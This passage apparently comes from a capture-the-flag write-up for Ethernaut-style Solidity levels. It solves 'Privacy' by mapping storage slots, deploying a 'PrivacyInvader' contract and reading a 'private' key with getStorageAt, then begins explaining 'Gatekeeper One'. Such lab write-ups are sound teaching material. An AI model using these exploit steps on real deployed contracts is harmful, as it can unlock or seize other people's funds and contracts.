 1. boolean `locked` taking up 1 byte in slot 0
2. uint256 `ID` taking up all of slot 1 (uint256 = 32 bytes, can't fit in slot 0 with `locked`)
3. uint8 `flattening`, uint8 `denomination`, and uint16 `awkwardness` all crammed into slot 2, taking up (8+8+16)/8 = 4 bytes.
4. bytes32 `data` begins in slot 3 with `data[0]`. There are 3 items in `data`, each being 32 bytes in size and taking up a full slot.
5. `data[1]` takes up all of slot 4.
6. `data[2]` takes up all of slot 5.

The unlock function has a check that the input is `data[2]` converted to bytes16. So we need to get `data[2]` from storage and truncate it to bytes16

I'm deploying the following contract:

    // SPDX-License-Identifier: MIT

    pragma solidity ^0.8.0;

    interface IPrivacy {
        function unlock(bytes16 _key) external;
    }

    contract PrivacyInvader{
        function kill(address instance, bytes32 key) external {
            bytes16 casted = bytes16(key);
            IPrivacy(instance).unlock(casted);
        }
    }

Note the `kill` function's casting of the bytes32 input to bytes16 via `bytes16(key)`. Then it calls `unlock` with the new bytes16 key.

In the brownie console:

    invader = PrivacyInvader.deploy({'from': player})
    key = web3.eth.getStorageAt(instance, 5)
    invader.kill(instance, key, {'from': player})

Submit the level and move on!

## 14. Gatekeeper One

This is one of the harder levels. We need to find an input that will pass each of 3 gates. 

`gateOne` should be easy by now - we're going to be using a contract to make the call so `msg.sender != tx.origin` evaluates `true`.

`gateTwo` is a little more tricky. We need to specify gas for our call to `enter` such that there is a multiple of 8191 gas left by the time our transaction gets to the second gate. I guess you could calculate the answer for this manually if you wanted, but we have computers, so we're going to make them do the work for us. Let's get the third gate covered and then circle back to this one.

`gateThree` requires knowledge of how different sized uint variables are modfied when casting them down in size. When casting a uint down, you convert it to its hex representation (0xXXXXXXXXX) and remove digits from the left until you get the desired size. For example, a uint32 with `0xABCD1234` hex representation would become `0x1234` when cast down to uint16.
